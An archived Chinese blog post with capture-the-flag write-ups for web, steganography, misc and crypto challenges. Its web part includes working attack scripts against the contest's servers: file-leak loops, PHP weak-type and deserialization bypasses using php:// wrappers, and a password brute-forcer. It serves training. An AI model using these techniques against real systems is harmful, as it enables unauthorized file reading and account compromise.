










<!--yml
category: 未分类
date: 2022-04-26 14:42:25
-->

# 第四届“”世安杯“”线上赛题解（Web+Stego+Misc+Crypto）_Assassin__is__me的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_35078631/article/details/78176379](https://blog.csdn.net/qq_35078631/article/details/78176379)

题目很多原题，但是还是考验了不少的知识点，就算是原来见过的也当做是复习了一下知识点了。

## **WEB**

### **ctf入门级题目**

非常水的一道题，可以看到源码，然后利用%00截断就可以通过了

<center></center>

### **曲奇饼**

原题，直接利用line和file来泄露文件内容，通过臊面轻松知道存在index.php，然后利用一下得到源码审计

```
 import requests
s=requests.session()
file=''
for i in range(19):
    url="http://ctf1.shiyanbar.com/shian-quqi/index.php?line="+str(i)+"&file=aW5kZXgucGhw"
    r=s.get(url)
    content=r.content
    file+=content
print file
```

得到代码如下

```
<?php
error_reporting(0);
$file=base64_decode(isset($_GET['file'])?$_GET['file']:"");
$line=isset($_GET['line'])?intval($_GET['line']):0;
if($file=='') header("location:index.php?line=&file=a2V5LnR4dA==");
$file_list = array(
'0' =>'key.txt',
'1' =>'index.php',
);

if(isset($_COOKIE['key']) && $_COOKIE['key']=='li_lr_480'){
$file_list[2]='thisis_flag.php';
}

if(in_array($file, $file_list)){
$fa = file($file);
echo $fa[$line];
}
?>
```

然后知道很简单在cookie中伪造一下就行了

<center></center>

### **类型**

这个相对繁琐一些些，但是不难，总之就是需要绕过几个点，这里附一下审计代码

```
<?php 
show_source(__FILE__); 
$a=0; 
$b=0; 
$c=0; 
$d=0; 
if (isset($_GET['x1'])) 
{ 
        $x1 = $_GET['x1']; 
        $x1=="1"?die("ha?"):NULL; 
        switch ($x1) 
        { 
        case 0: 
        case 1: 
                $a=1; 
                break; 
        } 
} 
$x2=(array)json_decode(@$_GET['x2']); 
if(is_array($x2)){ 
    is_numeric(@$x2["x21"])?die("ha?"):NULL; 
    if(@$x2["x21"]){ 
        ($x2["x21"]>2017)?$b=1:NULL; 
    } 
    if(is_array(@$x2["x22"])){ 
        if(count($x2["x22"])!==2 OR !is_array($x2["x22"][0])) die("ha?"); 
        $p = array_search("XIPU", $x2["x22"]); 
        $p===false?die("ha?"):NULL; 
        foreach($x2["x22"] as $key=>$val){ 
            $val==="XIPU"?die("ha?"):NULL; 
        } 
        $c=1; 
} 
} 
$x3 = $_GET['x3']; 
if ($x3 != '15562') { 
    if (strstr($x3, 'XIPU')) { 
        if (substr(md5($x3),8,16) == substr(md5('15562'),8,16)) { 
            $d=1; 
        } 
    } 
} 
if($a && $b && $c && $d){ 
    include "flag.php"; 
    echo $flag; 
} 
?>
```

总体我么你需要做的就是让x1变量赋值为0、保证x2经过json_decode解密之后是一个存在两个元素的数组，然后第一个元素也必须是数组，第二个数组需要利用array_search的弱类型匹配绕过，让内容不存在XIPU，但是可以匹配通过、最后需要爆破一下md5值，我们很巧妙地可以发现substr(md5(‘15562’),8,16))是0e46379442318098，我们可以利用0e科学技术计数法的php弱类型匹配绕过！当然我们需要角门爆破了

x3内容由php脚本得到

```
<?php
$i2=array("1"=>"1");
$i1=array(
    0=>(array)$l2,
    1=>0
    );
$a = array(
    "x21" => "2018a",
    "x22" => (array)$i1
);
$b=json_encode($a);
var_dump(is_array($a));
echo $b;
?>
```

x4的爆破脚本由python脚本得到

```
import hashlib

for i in xrange(1000000):
    s = 'XIPU' + str(i)
    mymd5 = hashlib.md5()
    mymd5.update(s)
    mymd5 = mymd5.hexdigest()
    flag = 1
    if mymd5[8:10] == '0e':
        for j in mymd5[10:24]:
            if j.isalpha():
                flag = 0
                break
        if flag == 1:
            print s
            break
```

最后就可以了

<center></center>

### **登录**

这个真心没什么好说的，源码中存在提示说密码是五位数，然后直接爆破就好了！
爆破代码如下

```
 import requests,re,sys
type = sys.getfilesystemencoding()
url = 'http://ctf1.shiyanbar.com/shian-s/'
s=requests.session()
for s1 in range(0,9):
    for s2 in range(0,9):
        for s3 in range(0,9):
            for s4 in range(0,9):
                for s5 in range(0,9):
                    html = s.get(url).content
                    number=re.findall(r'<br><br>(.*?)<br><br>',html,re.S)
                    temp = str(s1)+str(s2)+str(s3)+str(s4)+str(s5)
                    tempurl=url+'index.php?username=admin&password='+str(temp)+'&randcode='+str(number[1])
                    html = s.get(tempurl).content.decode('utf-8').encode(type)
                    if '密码错误' not in html:
                        print html
```

### **admin**

一道不错的题目，虽然是原题吧，首先得到代码，发现一定是经典的文件泄露
利用php://input绕过对admin的限制，然后用经典的filter伪协议得到class.php和index.php的源代码，代码贴一下吧

```
 <?php

$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];

if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
    echo "hello admin!<br>";
    if(preg_match("/f1a9/",$file)){
        exit();
    }else{
        include($file); 
        $pass = unserialize($pass);
        echo $pass;
    }
}else{
    echo "you are not admin ! ";
}

?>

<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];

if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
    echo "hello admin!<br>";
    include($file); 
}else{
    echo "you are not admin ! ";
}
 --!>
---------------------------------------------------

<?php

class Read{
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}
?> 
```

然后我么就知道是经典的反序列化问题，一定是想办法调用class.php中的_toString函数，那么我们只需要这样就好了（如图）

<center></center>

注意我们在file变量中调用class.php为了触发，在pass序列化中需要将$file复制成filter伪协议伪装后语句，为了读取我们目标的f1ag.php文件。

然后就解密就行了

<center></center>

## **low**

实验吧原题，还是非常棒的，利用的是图片中最低位的奇偶性，最后生成一个图片，可以得到一个二维码！直接上代码就可以了，很容易懂

```
 import Image
path = '原图片的位置'
img = Image.open(path)
pix = img.load()
str1 = ''
for i in range(510):
    for j in range(613):
        if pix[i,j]%2==0:
            str1+='1'
        else:
            str1+='0'
img1 = Image.new("RGB",(510, 613))
k=0
for i in range(510):
    for j in range(613):
        if str1[k]=='1':
            img1.putpixel([i,j],(255,255,255))
        else:
            img1.putpixel([i,j],(0,0,0))
        k+=1
img1.show()
```

然后扫一下二维码就好了

<center></center>

### **斑马斑马**

这个题目也是原题，但是比较迷啊，这个是斑马的条纹隐藏了一个条形码，我用的QQ截图做的，左后可以得到一个一维码

<center></center>

然后放到网站上跑就可以得到答案了

<center></center>

注意答案的格式是小写…坑…

### **CreateByWho**

这个题目是一个拼凑二维码的…深坑无比….最后用word截图拼凑出来了二维码，丢失的三块是三个正方形黑色圆圈

<center></center>

### **适合作为桌面图片**

这个题目是stego直接去随便调下色层就出来了

<center></center>

但是扫码后得到一些不知名的串，然后放到hexeditor中生成一个新文件，发现是一个标准的pyc文件，用easy python compiler得到反汇编后的代码，稍加修改得到flag

```
 def flag():
    str = [102,
     108,
     97,
     103,
     123,
     51,
     56,
     97,
     53,
     55,
     48,
     51,
     50,
     48,
     56,
     53,
     52,
     52,
     49,
     101,
     55,
     125]
    flag = ''
    for i in str:
        flag += chr(i)
    print flag
flag()
```

## **Misc**

### **reverseMe**

这个题目脑洞…将所有的hex值倒置一下发现是一个png图片…然后图片的左右像素也是反正得，然后写一个py脚本搞定好了

```
 import Image
path = r'C:\reverseMe'
path1 = r'C:\reverseMe1.png'
path2 = r'C:\copy.png'
'''
生成图片
file = open(path,"rb")
file1 = open(path1,"wb")
num=0
a=[]
while True:
    byte = file.read(1)
    if byte == '':
        break
    else:
         hexstr =  "%s" % byte.encode('hex')
         decnum = int(hexstr, 16)
         num+=1
         a.append(byte)
         #file1.write(byte)
         #print hexstr, decnum
file.close()
for i in range(len(a)-1,0,-1):
    file1.write(a[i])

file1.close()
#print num
'''
'''翻转'''
img = Image.open(path1)
pix = img.load()
img1 = Image.new("RGB",(800, 100))
for i in range(800):
    for j in range(100):

        img1.putpixel([799-i,j],pix[i,j])
img1.show()
img1.save(path2)
```

然后得到flag图片

<center></center>

### **珍妮的qq号**

这个…大水题…直接上代码

```
 import requests,re,sys,hashlib
for i in range(10000,100000):
    j = i* 4
    if j>=100000:
        break
    temp1 = str(i)
    temp2 = str(j)
    if temp1[0]==temp2[4] and temp1[1]==temp2[3] and temp1[2]==temp2[2] and temp1[3]==temp2[1] and temp1[4]==temp2[0]:
        print i,j 
```

### **心仪的公司**

这个题目看数据包的时候必须在ubuntu的wireshake才能看，然后在审计流量的时候发现下面很多以IP为目地方的数据，审计一下直接发现flag！

<center></center>

## **Crypto**

### **RSA**

看到只是给了n和c的值，而且n远远大于c，猜测是经典的低加密指数攻击，而且猜测e是3，居然成功了，然后我们可以利用经典方法解除d值，代码如下

```
 import gmpy,libnum
c=2044619806634581710230401748541393297937319
N=92164540447138944597127069158431585971338721360079328713704210939368383094265948407248342716209676429509660101179587761913570951794712775006017595393099131542462929920832865544705879355440749903797967940767833598657143883346150948256232023103001435628434505839331854097791025034667912357133996133877280328143
d=126922179506039
i=0
while 1:
    if(gmpy.root(c+i*N, 3)[1]==1):
        print gmpy.root(c+i*N, 3)
        break
    i=i+1
```

然后结果需要将得到的d值转惩字符串即可！代码如下

```
import gmpy,libnum
print libnum.n2s(126922179506039)
```

最后结果为so_low